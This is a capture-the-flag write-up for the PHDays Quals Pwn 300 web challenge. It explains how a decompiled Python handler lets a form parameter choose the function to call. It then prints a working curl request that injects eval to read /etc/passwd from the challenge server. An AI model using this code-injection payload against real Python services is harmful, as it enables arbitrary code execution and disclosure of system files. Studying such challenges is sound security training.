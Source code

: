 # PHDays Quals Pwn 300

PWN 300 is a 'south park administration' website.

It only has a form:

* Select between {Kenny, Stan, Kyle, Eric, Butters, Token}
* Radio buttons for {Kill, Arrest, Bankrupt}
* Submit button

Click submit, and it'll return a message like `Kenny was killed`,
depending on the input.

The html source code provides a comment, stating that **the flag is inside
of /etc/passwd**. We are also given the source code for the website.

**web.py** is a python twisted web server.
By default, it serves the main web page, which is hard coded as a
string. For POST requests, it passes the arguments from the request to a
function from the other file.

**process.pyc** is compiled python that web.py makes use of.

We decompile process.pyc to get process.py. Thanks [unpyc](http://code.google.com/p/unpyc/). There is one issue with the decompiled code. A line inside of the 'create_function' function in process.py reads: 

    consts = ((None,) + (human))

Which doesn't work. Change it so that it does what it probably was meant
to do.

    consts = tuple([None, human])

Now it is possible to run web.py locally and have the same output as the
online version.

**process.py** provides a function that dynamically builds up another
function. What it does:

* Builds up an list of information needed for a python code object.
* Passes the list into types.codeType to generate a python code object.
* Passes the python code object into types.FunctionType to create a function.
* Calls the resultant function and passes the output string back to
  web.py.

It turns out that we don't actually need to understand how python code
objects work to exploit this.

Here is the bottom of process.py, which is all that we actually need to
exploit this.

    def kill(name):
        return ('%s was killed' % name)

    def arrest(name):
        return ('%s was arrested' % name)

    def bankrupt(name):
        return ('%s was bankrupted' % name)

    def process(args):
        actions = tuple(args['actions'])
        choice = args['choice'][0]
        human = args['human'][0]
        return create_function('myfunc', 0, choice, actions, human)()

When printed, args looks like this (depends on what the web client passes in):

    kill kenny   {'actions': ['kill', 'arrest', 'bankrupt'], 'human': ['Kenny'], 'choice': ['\x00']} 

Based on the value inside of 'choice', process.py will choose one of the
options inside of 'actions', which correspond to function names to use
in the dynamically generated function. The first value inside of 'human'
gets passed in as an argument. We can replace one of the functions with
eval. We want args to look like:

    {'actions': ['eval', 'arrest', 'bankrupt'], 'human': ['str(open("/etc/passwd"))'], 'choice': ['\x00']}

Construct a request to send in these parameters:

    $ curl -d "actions=eval&actions=arrest&human=str(open(\"/etc/passwd\").read())&choice=%00" http://ctf.phdays.com:2137

And it dumps /etc/passwd, which contains the flag in plaintext
